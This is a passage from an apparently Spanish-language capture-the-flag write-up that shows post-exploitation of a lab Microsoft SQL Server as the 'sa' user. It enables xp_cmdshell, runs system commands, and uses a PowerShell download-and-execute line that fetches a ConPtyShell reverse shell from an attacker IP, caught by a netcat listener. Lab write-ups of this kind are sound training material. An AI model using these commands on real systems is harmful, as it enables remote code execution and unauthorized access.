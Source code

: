 Este usuario normalmente tiene privilegios administrativos acá, y podemos comprobarlo con simplemente ejecutar `sp_configure`:

```bash
SQL (sa  dbo@master)> sp_configure
name                                    minimum      maximum   config_value    run_value   
---------------------------------   -----------   ----------   ------------   ----------   
access check cache bucket count               0        65536              0            0   

access check cache quota                      0   2147483647              0            0   

Ad Hoc Distributed Queries                    0            1              0            0   

ADR cleaner retry timeout (min)               0        32767              0            0   
... [snip]
```

Vamos a activar el comando `xp_cmdshell` para ejecutar comandos del sistema:

```bash
SQL (sa  dbo@master)> sp_configure 'xp_cmdshell',1
INFO(DC01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (sa  dbo@master)> reconfigure
SQL (sa  dbo@master)> xp_cmdshell "dir C:\"
output                                                       
----------------------------------------------------------   
 Volume in drive C has no label.                             

 Volume Serial Number is 3705-289D                           
... [snip]
```

Podemos proceder a enviarnos una reverse shell, yo utilizaré [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) por temas de facilidad.

```bash
SQL (sa  dbo@master)> xp_cmdshell "powershell IEX((New-Object Net.WebClient).DownloadString(\"http://10.10.16.70:8000/uwu\"))"
```

```bash
❯ nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.51 53034
^Z
[1]  + 19474 suspended  nc -lvnp 443

❯ stty raw -echo; fg
PS C:\Windows\system32>
```

### ryan - dc01.sequel.htb

Hay una carpeta de SQL Server en la raiz del volumen `C:\`
